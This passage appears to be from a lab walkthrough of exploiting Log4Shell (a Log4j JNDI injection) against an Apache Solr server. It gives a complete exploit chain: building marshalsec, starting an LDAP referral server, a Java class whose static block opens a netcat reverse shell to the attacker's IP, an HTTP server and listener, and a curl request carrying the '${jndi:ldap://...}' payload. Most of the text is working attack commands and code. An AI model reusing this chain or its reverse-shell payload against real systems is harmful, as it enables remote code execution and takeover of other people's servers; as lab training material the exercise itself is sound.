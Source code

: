 We have to make sure the Java version we use matches the version used by the target server

![image](https://user-images.githubusercontent.com/79013612/148699927-80f74a73-0723-49c7-aa4a-77608682e871.png)

Let's build the **marshalsec** utility:

```bash
mvn clean package -DskipTests
```

We'll set up LDAP referral server to direct connections to our secondary HTTP server that we will create after

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.249.41:8000/#Exploit"
```

![image](https://user-images.githubusercontent.com/79013612/148700038-4c4d4bd1-5bbf-405c-a6b9-db72ab8e842a.png)

In another terminal, we will create our exploit in Java and we will call it **Exploit.java** with this content

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.8.249.41 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
The code is executing a reverse shell. Now we need to compile it into Class object 

```bash
javac Exploit.java -source 8 -target 8
```

After that, we will start a Python3 HTTP server from the file's location

```bash
python3 -m http.server
```

We will start a netcat listener to receive the reverse shell

```bash
nc -nlvp 9999
```

Now, the only thing that we need is to execute the code on the victim's machine by executing:
```bash
curl 'http://10.10.162.234:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.249.41:1389/Exploit\}'
```

As a result, we see that we got a connection on the **LDAP referral server**

![image](https://user-images.githubusercontent.com/79013612/148700917-5f37109a-bacd-40b5-87d2-e6c17c5f85e2.png)
